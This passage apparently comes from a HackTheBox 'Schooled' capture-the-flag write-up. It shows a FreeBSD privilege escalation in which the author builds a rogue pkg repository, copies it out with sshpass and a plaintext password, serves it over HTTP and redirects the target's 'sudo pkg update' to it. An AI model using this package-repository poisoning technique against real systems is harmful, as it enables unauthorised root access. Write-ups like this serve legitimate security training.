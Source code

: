 

#### Generate Repo Metadata

`pkg repo` will generate the repo metadata files:



    jamie@Schooled:/var/tmp/.0xdf $ pkg repo .
    Creating repository in .: 100%
    Packing files for repository: 100%
    jamie@Schooled:/var/tmp/.0xdf $ ls
    +MANIFEST       +POST_INSTALL   0xdf-1.0_5.txz  meta.conf       meta.txz        packagesite.txz plist           usr



### Host Package

I'm going to have Schooled update from my VM, so I need to get these
files back to my host, and put them into `/packages` on a webserver.
I'll use `scp`:



    oxdf@parrot$ sshpass -p '!QAZ2wsx' scp jamie@10.10.10.234:/var/tmp/.0xdf/packagesite.txz packages
    oxdf@parrot$ sshpass -p '!QAZ2wsx' scp jamie@10.10.10.234:/var/tmp/.0xdf/meta.* packages
    oxdf@parrot$ sshpass -p '!QAZ2wsx' scp jamie@10.10.10.234:/var/tmp/.0xdf/0xdf-1.0_5.txz packages
    oxdf@parrot$ find packages/
    packages/
    packages/meta.txz
    packages/packagesite.txz
    packages/meta.conf
    packages/0xdf-1.0_5.txz



In that directory, `python3 -m http.server 80` will host the files.

### Exploit

I'll re-update `/etc/hosts` with my IP (there's a cron resetting it
frequently), and run `pkg update`:



    jamie@Schooled:/var/tmp/.0xdf-staging $ sudo pkg update
    Updating FreeBSD repository catalogue...
    Fetching meta.conf: 100%    163 B   0.2kB/s    00:01    
    Fetching packagesite.txz: 100%    460 B   0.5kB/s    00:01    
    Processing entries: 100%
    FreeBSD repository update completed. 1 packages processed.
    All repositories are up to date.



The requests at my server look good:



    oxdf@parrot$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.234 - - [06/Apr/2021 09:03:28] "GET /packages/meta.conf HTTP/1.1" 200 -
    10.10.10.234 - - [06/Apr/2021 09:03:28] "GET /packages/packagesite.txz HTTP/1.1" 200 -
